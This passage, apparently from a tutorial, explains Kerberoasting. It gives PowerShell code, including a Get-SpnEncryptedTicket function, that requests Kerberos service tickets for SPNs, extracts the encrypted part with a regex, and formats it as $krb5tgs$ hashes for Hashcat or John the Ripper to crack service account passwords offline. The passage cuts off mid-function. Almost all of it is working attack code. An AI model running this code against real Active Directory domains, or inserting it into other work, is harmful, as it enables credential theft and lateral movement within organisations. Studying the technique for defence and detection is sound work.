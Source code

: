 
These next commands format the cyphertext for two common tools used for password cracking: [Hashcat](https://github.com/hashcat) and [John](https://github.com/magnumripper/JohnTheRipper):

```powershell
if ($OutputFormat -match 'John') {
    $HashFormat = "`$krb5tgs`$$($Ticket.ServicePrincipalName):$Hash"
}
else {
    if ($DistinguishedName -ne 'UNKNOWN') {
        $UserDomain = $DistinguishedName.SubString($DistinguishedName.IndexOf('DC=')) -replace 'DC=','' -replace ',','.'
    }
    else {$UserDomain = 'UNKNOWN'    }
    $HashFormat = "`$krb5tgs`$$($Etype)`$*$SamAccountName`$$UserDomain`$$($Ticket.ServicePrincipalName)*`$$Hash"
}
```
<br>

This can now be fed to a cracking tool and a wordlist and if the account's password is in the list, the ticket can be decrypted and the password identified:

We can combine these commands into the `Get-SpnEncryptedTicket` function.


```powershell
function Get-SpnEncryptedTicket {

    [CmdletBinding()]
    Param (
        [Parameter(Mandatory=$True, ValueFromPipelineByPropertyName = $True)]
        [Alias('ServicePrincipalName')]
        [String[]]$SPN,

    [ValidateSet('John', 'Hashcat')]
        [Alias('Format')]
        [String]$OutputFormat = 'John'
    )    
        
    begin {Add-Type -AssemblyName System.IdentityModel}

    process {
        $Ticket = New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $SPN
        $TicketByteStream = $Ticket.GetRequest()        
        if (!($TicketByteStream)) {Break}

        $TicketHexStream = [System.BitConverter]::ToString($TicketByteStream) -replace '-'
      
        if ($TicketHexStream -match 'a382....3082....A0030201(?<EtypeLen>..)A1.{1,4}.......A282(?<CipherTextLen>....)........(?<DataToEnd>.+)') {
            $Etype = [Convert]::ToByte( $Matches.EtypeLen, 16 )
            $CipherTextLen = [Convert]::ToUInt32($Matches.CipherTextLen, 16)-4
            $CipherText = $Matches.DataToEnd.Substring(0,$CipherTextLen*2)
      
            if($Matches.DataToEnd.Substring($CipherTextLen*2, 4) -ne 'A482') {Break} 
            else {$Hash = "$($CipherText.Substring(0,32))`$$($CipherText.Substring(32))" }
        } 
        else {Break}

        if($Hash) {
            if ($OutputFormat -match 'John') {
                $HashFormat = "`$krb5tgs`$$($Ticket.ServicePrincipalName):$Hash"
            }
            else {
                if ($DistinguishedName -ne 'UNKNOWN') {
```